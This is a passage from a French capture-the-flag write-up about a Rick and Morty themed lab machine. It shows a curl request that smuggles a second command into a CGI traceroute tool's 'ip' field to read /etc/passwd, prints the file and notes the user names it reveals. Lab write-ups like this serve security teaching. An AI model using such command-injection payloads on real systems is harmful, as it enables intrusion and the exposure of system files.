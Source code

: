 Comme dit précédemment `root_shell.cgi` est vide, mais `tracertool.cgi` est un script qui appelle une commande shell, ce qui rend possible l'injection de commande.
Pas de flag ici, mais on peut en profiter pour essayer de trouver les utilisateurs de la machine en lisant le fichier `/etc/passwd`.

```bash
$ curl "http://192.168.228.161/cgi-bin/tracertool.cgi?ip=localhost%3B+less+%2Fetc%2Fpasswd"

<html><head><title>Super Cool Webpage
</title></head>
<b>MORTY'S MACHINE TRACER MACHINE</b>
<br>Enter an IP address to trace.</br>
<form action=/cgi-bin/tracertool.cgi
    method="GET">
<textarea name="ip" cols=40 rows=4>
</textarea>
<input type="submit" value="Trace!">
</form>
<pre>
traceroute to localhost (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.024 ms  0.003 ms  0.002 ms
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-coredump:x:999:998:systemd Core Dumper:/:/sbin/nologin
systemd-timesync:x:998:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:997:996:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
</pre>
</html>
```
On a trouvé les utilisateurs de la machine, certains sont intéressants, par exemple `RickSanchez`, `Morty` et bien sur la sœur de Morty `Summer`.
